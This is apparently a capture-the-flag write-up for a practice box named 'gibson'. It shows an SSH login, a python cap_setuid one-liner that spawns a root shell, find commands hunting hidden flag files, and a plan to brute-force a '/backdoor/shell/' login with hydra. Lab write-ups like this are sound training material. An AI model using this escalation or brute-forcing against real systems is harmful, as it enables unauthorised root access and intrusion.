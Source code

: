 ```bash
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.167.61' (ED25519) to the list of known hosts.
Unauthorised access is a federal offense under the Computer Fraud and Abuse Act 1986
rcampbell@10.10.167.61's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

rcampbell@gibson:~$ ls

```
- check for SUID's, /etc/sudoers, etc. nothing, but getcaps gives us this:
```bash
/usr/bin/python3.6 = cap_setuid+ep
/usr/bin/python3.6m = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```
- exploit:
```python
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
- and like that we got root now we hunt for flags and secure the king.txt
```bash
root@gibson:~# whoami
root
```
![](https://media.tenor.com/myX9wL2rQkEAAAAC/tower-of-god-tog.gif))
- regular flag and user .txt didnt find anything so i used the hint we gained earlier about the hidden files
```bash
root@gibson:/root# find / -name flag.txt 2>/dev/null
root@gibson:/root# find / -name user.txt 2>/dev/null
root@gibson:/root# find / -name .flag  2>/dev/null
/root/.flag
/home/tryhackme/.flag
/home/production/.flag
/home/rcampbell/.flag
/var/ftp/.flag
```
- the box said it had 9 flags and we only found 5 now so i tried *.txt as well and found bussiness.txt
```bash
/home/gcrawford/business.txt
```
- after traversing throught the system with no luck finding the flag i tried surfing the http website, trying exiftool on the pictures and going through the source code and dirbuster. I found http://10.10.167.61/backdoor/ and http://10.10.167.61/backdoor/shell/ pretty sus if you ask me. I tried loging in with the ftp and ssh user-pass combos first but it didnt work. The error kept giving me an annoying js alert popup. So i pulled up hydra again.
